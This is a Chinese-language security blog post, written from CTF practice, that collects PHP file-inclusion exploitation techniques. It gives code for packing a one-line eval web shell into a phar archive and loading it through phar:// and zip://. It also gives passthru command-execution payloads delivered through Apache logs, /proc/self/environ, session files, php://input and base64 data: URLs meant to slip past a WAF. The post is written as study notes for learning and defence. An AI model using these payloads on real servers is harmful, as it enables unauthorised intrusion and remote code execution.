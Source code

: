 ```yaml
---
title: 文件包含漏洞（二）
tags:
  - PHP
  - 文件包含
id: 274
categories:
  - Web安全
  - 未分类
date: 2016-12-03 16:28:53
---
```


之前已经总结了一次文件包含漏洞相关的知识点，最近一段时间做CTF又遇到了不少以前没见过的包含新姿势，这里在总结一下，以后看的时候方便一些。
<!--more-->
## <del></del>phar LFI

### 0x01 什么是phar文件

phar是一个文件归档的包，类似于Java中的Jar文件，方便了PHP模块的迁移。

php中默认安装了这个模块。

### 0x02 创建一个phar文件

在创建phar文件的时候要注意phar.readonly这个参数要为off，否则phar文件不可写。

```php
<?php

$p = new phar("shell.phar", 0 , "shell.phar");

$p->startBuffering();

$p['shell.php'] = '<?php phpinfo(); @eval($_POST[x])?>';

$p->setStub("<?php Phar::mapPhar('shell.phar'); __HALT_COMPILER?>");

?>
```

运行以上代码后会在当前目录下生成一个名为shell.phar的文件，这个文件可以被include，file_get_contents等函数利用

### 0x03 利用phar

利用phar文件的方法很简单，利用phar特定的格式就可以加以利用

```php
<?php

include 'phar://shell.phar/shell.php';

?>
```

这样就可以成功把shell包含进来。当我们把shell.phar文件重命名为shell.aaa等一些无效的后缀名时，一样可以使用，说明了phar文件不受文件格式的影响。

![](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/2016/12/5e01b381ad62e11dd74805a4177bc152.png)

### 0x04 思路

有了phar文件，我们就能有一些猥琐的思路了，比如上传的文件名遭到了限制，我们无法上传php的文件，但是却只能包含php文件的时候（包含文件后缀名被限制 include '$file'.'.php'），我们就可以通过上传phar文件，再利用php伪协议来包含。

### 0x05 扩展

与phar类似的还有，zip://协议也与phar类似，但是上传了包含有一句话的zip文件后包含的姿势有所不同

include 'zip://shell.zip#shell.php' 利用#隔开，在URL中包含时要用%23，与URL中#号区分开。

（注意：php 5.3.4后已经修复了%00截断漏洞）

## 包含命令执行

先准备好代码&lt;? passthru($_GET[cmd])?&gt;上传到服务器，然后利用文件包含就可以。

### 0x01 包含apache日志

请求不存在的页面:http://host/aaaaa=&lt;? passthru($_GET[cmd])?&gt;

然后包含日志文件：

http://host/?file=../../../../var/apache/error_log&amp;cmd=ls

如果apache日志文件遭到了路径修改，可以利用爆路径等方式来找日志路径。

### 0x02 利用环境变量进行插入

/proc/self 指向最后一个PID使用的连接

在linux中，/proc/self可写并且位置固定。

将代码放在User-Agent中进行提交 请求http://host?file=../../../proc/self/environ&amp;cmd=ls

### 0x03 利用图马进行包含

### 0x04 利用session文件

如果知道session的字段。

http://host?user=&lt;? passthru($_GET[cmd])?&gt;

找到session文件储存的位置(常用/tmp/session)

### 0x05 利用php://input

`
<?php
$data = file_get_contents('php://input');
echo $data;
?>
`

![](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/2016/12/d1660fedd8e4cfacdc61fbb3d39e1792.png)

(注意：需要allow_url_include = On 且 PHP &gt;= 5.2.0)

### 0x06 data URL代码执行

我们可以将攻击代码转换为data:URL形式进行攻击，但是直接在URL连接中出现一些敏感字符，会导致被waf检测，所以我们需要给攻击代码进行base64编码。

http://localhost/test/phar%20LFI/postinput.php?file=data:text/plain;base64,PD9waHAKcGhwaW5mbygpOwo/Pg==

![](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/2016/12/90d47eb1cb5e3f380948909548dee61d.png)

## 

文件包含的利用姿势很多，一个文件包含可能直接导致getshell或者被利用成了代码执行漏洞，后果十分验证，所以在使用这些文件包含函数的时候，一定要对包含进来的文件进行过滤处理，避免漏洞的产生。

## 参考链接：

https://digi.ninja/blog/when_all_you_can_do_is_read.php 常用包含路径

https://wiki.apache.org/httpd/DistrosDefaultLayout 官方路径

http://static.hx99.net/static/drops/web-13249.html